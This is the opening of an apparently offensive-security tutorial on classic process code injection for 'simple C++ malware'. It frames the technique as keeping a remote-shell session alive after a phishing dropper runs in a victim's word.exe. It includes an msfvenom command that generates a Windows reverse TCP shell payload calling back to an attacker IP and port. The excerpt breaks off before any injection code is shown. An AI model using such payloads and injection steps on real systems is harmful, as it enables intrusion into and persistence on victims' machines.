 ## 4. classic code injection into the process. simple C++ malware. 

![code injection](./images/6/2021-09-18_20-00.png){width="75%"}

Let's talk about code injection. What is code injection? And why we do that?

Code injection technique is a simply method when one process, in our case it's our malware, inject code into another running process.   

For example, you have your malware, it's a dropper from phishing attack or a trojan you managed to deliver to your victim or it can be anything running your code. And for some reason, you might want to run your payload in a different process.
What do I mean by that? In this post we will not consider the creation of trojan, but for example, let's say that your payload got executed inside `word.exe` which have a limited time of living. Let's say your successfully got a remote shell, but you know that, your victim close `word.exe`, so in this situation you have to migrate to another process if you want to preserve your session.

In this post we will discuss about a classic technique which are payload injection using debugging API.

Firstly, let's go to prepare our payload. For simplicity, we use `msfvenom` reverse shell payload from Kali linux.

On attacker's machine run:
```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

where `10.9.1.6` is our attacker's machine IP address, and `4444` is port which we run listener later.   
